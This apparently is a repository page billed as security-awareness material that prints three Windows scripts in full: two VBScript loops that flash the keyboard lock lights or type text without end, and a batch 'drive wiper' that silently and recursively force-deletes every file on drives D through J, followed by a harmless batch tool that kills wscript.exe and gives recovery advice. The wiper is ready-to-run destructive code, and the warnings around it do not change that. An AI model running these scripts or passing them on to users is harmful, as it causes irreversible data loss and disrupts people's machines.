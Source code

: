 # Security Awareness Documentation

This document serves as educational material about potentially harmful scripts and how to protect against them. **DO NOT EXECUTE ANY OF THESE SCRIPTS** as they can cause harm to your system.

## Potentially Harmful Scripts

### 1. Keyboard Lights Flasher (keyboard_flasher.vbs)
```vbs
Set wshShell =wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "{CAPSLOCK}"
wscript.sleep 100
wshshell.sendkeys "{NUMLOCK}"
wscript.sleep 100
wshshell.sendkeys "{SCROLLLOCK}"
loop
```
**Effect:** This script repeatedly toggles the Caps Lock, Num Lock, and Scroll Lock keys, causing the keyboard indicator lights to flash continuously. While not immediately harmful to data, it can be annoying and disruptive.

### 2. Drive Wiper (drive_wiper.bat)
```bat
@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q
```
**Effect:** This is an extremely dangerous script that attempts to delete all files on drives D through J. The deletion is:
- Silent (`/q` parameter)
- Forced (`/f` parameter) 
- Recursive through all subdirectories (`/s` parameter)

**WARNING:** This script can cause irreversible data loss. Once executed, the deleted files cannot be easily recovered without specialized data recovery software, and even then, complete recovery may not be possible. This is considered a one-time "hit and run" attack that causes immediate and potentially permanent damage.

### 3. Text Spammer (text_spammer.vbs)
```vbs
Set wshShell = wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "This is a harmless virus"
loop
```
**Effect:** This script repeatedly types the text "This is a harmless virus" wherever the cursor is positioned. It can disrupt work by making it impossible to type normally and might cause unintended actions if the text is entered into command prompts or active applications.

## Antivirus Solution (script_terminator.bat)

Below is a simple script that can help terminate malicious VBS scripts like the keyboard flasher and text spammer:

```bat
@echo off
echo Script Terminator - Emergency System Protection
echo =============================================
echo.
echo Scanning for malicious processes...
tasklist | findstr "wscript.exe" > nul
if %ERRORLEVEL% EQU 0 (
    echo ALERT: Found wscript.exe running!
    echo Terminating all wscript processes...
    taskkill /f /im wscript.exe
    echo Process terminated successfully.
) else (
    echo No malicious wscript processes found.
)
echo.
echo Checking system integrity...
echo.
echo NOTE: If files were deleted by the drive wiper script,
echo immediate actions are required:
echo 1. Disconnect the affected drives
echo 2. Do not write any new data to them
echo 3. Use professional data recovery services or software
echo   as deleted files are NOT recoverable through standard means
echo.
echo While this utility can stop active malicious scripts,
echo it CANNOT recover files deleted by the drive wiper script.
echo That damage is irreversible without professional recovery tools.
echo.
pause
```

## Important Notes:

1. The drive wiping script causes irreversible damage that cannot be fixed by the antivirus solution. Once files are deleted using the `/f /s /q` parameters, they bypass the recycle bin and are immediately removed.

2. The best protection against these types of scripts is prevention:
   - Never run scripts from untrusted sources
   - Use comprehensive antivirus software
   - Keep your operating system updated
   - Back up important data regularly
   - Be cautious about giving administrative privileges to applications

3. This document is provided for educational purposes only to raise awareness about potential security threats. Creating, distributing, or executing harmful scripts on systems without authorization is illegal and unethical.

## Emergency Response

If you suspect your system has been compromised:
1. Disconnect from the internet
2. Boot into safe mode if possible
3. Run reputable antivirus software
4. Consult with an IT security professional
5. Consider a clean installation if the system is severely compromised 